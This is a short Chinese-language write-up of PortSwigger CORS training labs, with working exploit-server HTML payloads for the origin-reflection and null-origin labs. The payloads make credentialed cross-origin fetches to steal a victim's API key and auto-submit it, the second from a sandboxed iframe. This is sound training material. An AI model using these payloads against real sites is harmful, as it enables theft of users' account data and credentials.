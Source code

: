 ```yaml
---
title: PortSwigger Cross-origin resource sharing (CORS)
description: PortSwigger Cross-origin resource sharing (CORS)
last_update:
  date: "2025-08-25T08:00:00+08:00"
---
```


## Lab: CORS vulnerability with basic origin reflection

| Dimension | Description                                                                                                |
| --------- | ---------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cors#server-generated-acao-header-from-client-specified-origin-header |
| Lab       | https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack                               |

在 exploit-server 構造

```html
<script>
  fetch(
    "https://0ae00026030c463780b68f5900490011.web-security-academy.net/accountDetails",
    { credentials: "include" },
  )
    .then((res) => res.json())
    .then((json) => {
      alert(JSON.stringify(json));
      document.getElementById("hello").value = json.apikey;
      document.getElementById("submitSolution").submit();
    });
</script>
<form
  id="submitSolution"
  action="/submitSolution"
  method="POST"
  enctype="application/x-www-form-urlencoded"
>
  <input id="hello" name="answer" />
</form>
```

## Lab: CORS vulnerability with trusted null origin

| Dimension | Description                                                                  |
| --------- | ---------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cors#whitelisted-null-origin-value      |
| Lab       | https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack |

在 exploit-server 構造

```html
<iframe
  id="evilIframe"
  sandbox="allow-scripts allow-top-navigation allow-forms"
></iframe>
<script>
  const inlineHTML = `
<div>
  <script>
    fetch('https://0ab4000a04978dfe81a60340003600c0.web-security-academy.net/accountDetails', {
      credentials : 'include'
    })
      .then(res => res.json())
      .then(json => {
        document.getElementById("hello").value = json.apikey;
        document.getElementById("submitSolution").submit();
      })
  <\/script>
  <form
    id="submitSolution"
    action="https://0ab4000a04978dfe81a60340003600c0.web-security-academy.net/submitSolution"
    method="POST"
    enctype="application/x-www-form-urlencoded"
  >
    <input id="hello" name="answer" />
  </form>
</div>`;
  document.getElementById("evilIframe").setAttribute("srcdoc", inlineHTML);
</script>
```

中間有遇到一個小問題，在 `<script>` 標籤內的 template literal 定義 `<script>`

```html
<script>
  // 這樣會出錯
  const html = `<script>alert(1);</script>`;
</script>

<script>
  // 這樣就沒問題
  const html = `<script>alert(1);<\/script>`;
</script>
```

## Lab: CORS vulnerability with trusted insecure protocols

| Dimension | Description                                                                        |
| --------- | ---------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cors#breaking-tls-with-poorly-configured-cors |
| Lab       | https://portswigger.net/web-security/cors/lab-breaking-https-attack                |

## 參考資料

- https://portswigger.net/web-security/cors
